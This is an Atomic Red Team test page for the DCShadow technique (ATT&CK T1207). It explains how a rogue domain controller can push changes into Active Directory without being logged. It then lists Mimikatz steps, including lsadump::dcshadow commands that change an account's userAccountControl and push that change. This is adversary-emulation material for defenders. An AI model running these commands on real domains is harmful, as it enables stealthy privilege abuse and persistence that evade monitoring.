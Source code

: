 # T1207 - DCShadow
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1207)
<blockquote>DCShadow is a method of manipulating Active Directory (AD) data, including objects and schemas, by registering (or reusing an inactive registration) and simulating the behavior of a Domain Controller (DC). (Citation: DCShadow Blog) (Citation: BlueHat DCShadow Jan 2018) Once registered, a rogue DC may be able to inject and replicate changes into AD infrastructure for any domain object, including credentials and keys.

Registering a rogue DC involves creating a new server and nTDSDSA objects in the Configuration partition of the AD schema, which requires Administrator privileges (either Domain or local to the DC) or the KRBTGT hash. (Citation: Adsecurity Mimikatz Guide)

This technique may bypass system logging and security monitors such as security information and event management (SIEM) products (since actions taken on a rogue DC may not be reported to these sensors). (Citation: DCShadow Blog) The technique may also be used to alter and delete replication and other associated metadata to obstruct forensic analysis. Adversaries may also utilize this technique to perform [SID-History Injection](https://attack.mitre.org/techniques/T1178) and/or manipulate AD objects (such as accounts, access control lists, schemas) to establish backdoors for Persistence. (Citation: DCShadow Blog) (Citation: BlueHat DCShadow Jan 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCShadow - Mimikatz](#atomic-test-1---dcshadow---mimikatz)


<br/>

## Atomic Test #1 - DCShadow - Mimikatz
Utilize Mimikatz DCShadow method to simulate behavior of a Domain Controller

[DCShadow](https://www.dcshadow.com/)
[Additional Reference](http://www.labofapenetrationtester.com/2018/04/dcshadow.html)

**Supported Platforms:** Windows


#### Run it with these steps! 1. Start Mimikatz and use !processtoken (and not token::elevate - as it elevates a thread) to escalate to SYSTEM.
2. Start another mimikatz with DA privileges. This is the instance which registers a DC and is used to "push" the attributes.
3. lsadump::dcshadow /object:ops-user19$ /attribute:userAccountControl /value:532480
4. lsadump::dcshadow /push





<br/>
